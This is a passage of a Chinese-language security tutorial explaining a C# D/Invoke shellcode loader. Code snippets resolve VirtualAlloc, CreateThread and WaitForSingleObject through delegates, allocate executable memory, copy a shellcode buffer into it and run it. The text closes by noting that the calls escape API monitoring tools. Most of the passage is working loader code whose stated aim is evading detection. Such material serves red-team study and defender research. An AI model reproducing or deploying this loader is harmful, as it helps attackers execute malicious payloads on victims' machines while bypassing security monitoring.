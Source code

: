 这是 D/Invoke 调用的关键，有了函数地址，就可以构造函数委托并直接调用。

> 在C#中，委托（Delegate）是一种特殊的类型，它定义了方法的签名（即方法的返回类型和参数列表），并可以持有对具有相同签名的方法的引用。委托可以被看作是对函数的封装，允许将方法作为参数传递，或将其赋值给变量。

#### 调用 VirtualAlloc 分配内存

通过 D/Invoke `DInvokeFunctions.GetLibraryAddress` 函数获取 `VirtualAlloc` 函数地址，然后通过 `Marshal.GetDelegateForFunctionPointer` 委托调用 `VirtualAlloc` 函数，分配内存空间以存放 shellcode。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAlloc");
DELEGATES.VirtualAllocRx VirtualAllocRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.VirtualAllocRx)) as DELEGATES.VirtualAllocRx;
IntPtr rMemAddress = VirtualAllocRx(0, (uint)codepent.Length, 0x1000 | 0x2000, 0x40);
```

#### 将 shellcode 复制到分配的内存并创建线程执行

使用 `Marshal.Copy` 将 shellcode 复制到之前通过 `VirtualAlloc` 分配的内存中。然后，通过 D/Invoke 调用 `CreateThread` 函数创建一个新线程，线程的入口点是 shellcode 的内存地址，从指定内存地址开始执行 shellcode。

```plain
Marshal.Copy(codepent, 0, (IntPtr)(rMemAddress), codepent.Length);
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "CreateThread");
DELEGATES.CreateThreadRx CreateThreadRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.CreateThreadRx)) as DELEGATES.CreateThreadRx;
hThread = CreateThreadRx(0, 0, rMemAddress, pinfo, 0, ref threadId);
```

#### 等待线程结束

最后通过 `DInvokeFunctions.GetLibraryAddress` 获取 `WaitForSingleObject` 函数的地址并转换为委托，接着通过 D/Invoke 调用 `WaitForSingleObject` 函数等待 shellcode 执行完成的线程结束。

```plain
func_ptr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "WaitForSingleObject");
DELEGATES.WaitForSingleObjectRx WaitForSingleObjectRx = Marshal.GetDelegateForFunctionPointer(func_ptr, typeof(DELEGATES.WaitForSingleObjectRx)) as DELEGATES.WaitForSingleObjectRx;
WaitForSingleObjectRx(hThread, 0xFFFFFFFF);
```

> 在 D/Invoke 场景中，委托是一种允许程序动态调用任意函数地址的机制。通过这种方式，可以在不直接链接到函数的情况下执行其代码，增加了代码的灵活性和隐蔽性，可以看到 D\\Invoke ShellcodeLoader 的 API 调用未被 API 监控程序捕获：

[![](assets/1709530577-4fe6d47caea303a870eb19bdd79b5037.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301231042-deccef46-d7dd-1.png)
